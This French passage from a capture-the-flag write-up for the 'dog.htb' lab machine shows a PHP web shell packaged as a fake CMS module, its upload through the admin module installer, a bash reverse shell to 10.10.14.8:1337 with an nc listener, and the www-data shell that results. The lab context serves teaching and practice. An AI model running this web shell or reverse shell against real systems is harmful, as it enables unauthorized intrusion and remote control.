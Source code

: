 ### b) Création du module malveillant

Fichier `shell.php` :

```php
<?php system($_GET['cmd']); ?>
```

Fichier `shell.info` :

```ini
name = Shell
description = Evil module
type = module
core = 1.x
```

Création de l'archive :

```bash
tar -czvf shell.tar.gz shell
```

### c) Téléversement et activation

L'endpoint d'installation se trouve via alias :

```
http://dog.htb/?q=/admin/modules/install
```

Téléversement de `shell.tar.gz` → succès ✅

Exécution :

```
http://dog.htb/modules/shell/shell.php?cmd=id
```


## 🐚 Phase 6 — Reverse Shell

Création d'une connexion inverse :

```bash
bash -c "bash -i >& /dev/tcp/10.10.14.8/1337 0>&1"
```

Sur l'attaquant :

```bash
nc -lvnp 1337
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Connexion reçue : <code>uid=33(www-data) gid=33(www-data)</code>
    </p>
</div>
